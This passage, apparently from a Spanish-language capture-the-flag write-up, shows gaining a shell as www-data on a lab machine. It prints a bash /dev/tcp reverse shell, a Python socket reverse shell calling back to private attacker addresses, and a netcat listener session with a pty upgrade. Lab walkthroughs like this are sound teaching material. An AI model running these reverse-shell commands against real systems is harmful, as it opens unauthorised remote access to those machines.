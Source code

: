 
## Shell as `www-data` (Failed)

Podemos intentar enviarnos una `shell` mediante este parámetro, para ello modificaremos el siguiente payload

~~~ bash
bash -c "bash -i >&/dev/tcp/10.88.0.1/443 0>&1"
~~~

![image-center](/assets/images/posts/bruteshock-rce-web-2.png){: .align-center}

Nota que cambié el caracter `&` por `%26` para que pueda ejecutarse correctamente en el servidor

![image-center](/assets/images/posts/bruteshock-revshell-fail.png){: .align-center}

Si entramos de esta forma al poco tiempo de establecer la `shell`, nos concluye la conexión, esto puede ser porque el servidor está bloqueando ciertos tipos de conexiones

### `python` Reverse Shell

Usaremos una `reverse shell` con `python3` para no depender de un TTY y abrir directamente un socket a nuestra máquina atacante, el comando sería el siguiente

~~~ bash
python3 -c 'import socket,subprocess,os; s=socket.socket(socket.AF_INET,socket.SOCK_STREAM); s.connect(("172.17.0.1",4646)); os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2); p=subprocess.call(["/bin/bash","-i"]);'
~~~

Posteriormente lanzaremos una pseudo-terminal usando python. Ahora deberíamos poder tener una `shell` más interactiva

~~~ bash
nc -lvnp 4646
listening on [any] 4646 ...
connect to [172.17.0.1] from (UNKNOWN) [172.17.0.2] 38166
bash: cannot set terminal process group (25): Inappropriate ioctl for device
bash: no job control in this shell

www-data@5c050710a415:/var/www/html/pruebasUltraSecretas$ python3 -c 'import pty; pty.spawn("/bin/bash")'

<as$ python3 -c 'import pty; pty.spawn("/bin/bash")'      
www-data@5c050710a415:/var/www/html/pruebasUltraSecretas$
~~~
